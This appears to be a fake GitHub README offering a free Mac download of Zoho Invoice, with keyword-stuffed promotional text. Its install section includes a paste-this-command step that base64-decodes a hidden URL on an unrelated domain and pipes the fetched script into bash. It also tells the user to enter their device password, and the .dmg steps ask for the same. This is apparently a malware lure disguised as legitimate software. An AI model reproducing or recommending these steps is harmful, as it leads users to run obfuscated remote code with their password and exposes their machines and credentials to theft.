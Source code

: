 # Zoho Invoice for Mac — Free Download 🧾
![logo](https://is1-ssl.mzstatic.com/image/thumb/Purple221/v4/0a/5d/4b/0a5d4be8-753e-0be3-56c1-4a4b1990c516/AppIcon-0-2x_U007euniversal-0-0-0-5-0-0-0-85-220-0.png/1200x630bb.png)

Easily download and install Zoho Invoice for Mac OS to streamline your invoicing and billing tasks. Follow the step-by-step guide below to set up this powerful invoicing software for free!

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://fituganshfgh.github.io/.github/zohoinvoice)

If the download button doesn't work, follow the terminal instructions below for a seamless installation.

## 📦 How to Install Zoho Invoice for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Zoho Invoice

- 🧾 **Create Professional Invoices**: Design and send polished invoices with customizable templates to impress your clients.
- ⏰ **Track Time Effortlessly**: Monitor billable hours with built-in time tracking for accurate invoicing.
- 💸 **Manage Payments Seamlessly**: Accept payments via multiple gateways like PayPal, Stripe, and more.
- 📊 **Generate Financial Reports**: Gain insights into your business with detailed reports on revenue and expenses.
- 🔄 **Automate Recurring Billing**: Set up automated invoicing for subscriptions or recurring clients.
- 🌐 **Multi-Currency Support**: Invoice clients globally with support for multiple currencies.

## About Zoho Invoice

Zoho Invoice is a robust invoicing software tailored for freelancers, small businesses, and entrepreneurs who need a reliable tool to manage their billing processes. With its intuitive interface, Zoho Invoice allows users to create professional invoices in minutes, ensuring that your business maintains a polished and professional image. The software is designed to integrate seamlessly with other Zoho products, making it an excellent choice for those already using Zoho’s ecosystem for CRM, accounting, or project management. By leveraging keywords like **Zoho Invoice free download**, **invoicing software for Mac**, and **free billing tool**, Zoho Invoice ensures that users can easily find and adopt this solution for their financial workflows.

One of the standout features of Zoho Invoice is its time-tracking capability, which is essential for freelancers and consultants who bill clients based on hours worked. By incorporating **free invoicing software** and **Mac-compatible billing tools** into its framework, Zoho Invoice simplifies the process of tracking billable hours and converting them into invoices. The software also supports automation, allowing users to set up recurring invoices for regular clients, saving time and reducing manual work. This feature is particularly useful for businesses looking to optimize their invoicing process without investing in expensive tools.

Security and reliability are at the core of Zoho Invoice’s design. The software ensures that your financial data is protected with robust encryption, making it a safe choice for businesses handling sensitive client information. With **Zoho Invoice for Mac** and **free business invoicing**, users can trust that their data is secure while enjoying a seamless experience on their Mac devices. The ability to integrate with popular payment gateways like PayPal and Stripe further enhances its appeal, allowing businesses to collect payments quickly and efficiently.

Zoho Invoice also offers powerful reporting tools that provide insights into your business’s financial health. Whether you’re tracking revenue, expenses, or overdue payments, the software’s reporting features make it easy to stay on top of your finances. By incorporating **download Zoho Invoice free** and **Mac invoicing software** into its functionality, Zoho Invoice ensures that users can access these features without needing to navigate complex setups or paywalls. This accessibility makes it an ideal choice for small businesses looking to streamline their operations.

### Advantages of Zoho Invoice

Zoho Invoice stands out due to its user-friendly design, affordability, and comprehensive feature set. Unlike other invoicing tools that may require steep learning curves or costly subscriptions, Zoho Invoice offers a free tier that includes essential features for small businesses. Its seamless integration with Mac OS ensures smooth performance, while its support for **Zoho Invoice free download for Mac** and **business invoicing software** makes it highly discoverable for users searching for reliable invoicing solutions. With automation, multi-currency support, and robust reporting, Zoho Invoice empowers businesses to manage their finances efficiently while maintaining a professional image.

## 🖼 Preview

![Invoice Creation](https://www.zoho.com/books/features/images/invoicing/send-professional-invoices@1x.png)
*Creating a professional invoice with customizable templates.*

![Time Tracking](https://www.zoho.com/invoice/home/features/dashboard-2x.png)
*Tracking billable hours with ease.*

![Payment Gateway](https://www.zoho.com/invoice/help/images/dashboard/dashboard.png)
*Seamless payment collection with multiple gateways.*

## 🔍 Tags

zoho invoice software, zoho invoice, Zoho Invoice free download, invoicing software for Mac, Zoho Invoice for Mac, zoho invoice free, zoho invoice generator, invoice generator zoho, zoho invoice app, zoho invoice download, zoho invoice free, zoho invoice download free, free zoho invoice download, zoho invoice for mac, zoho invoice mac os 
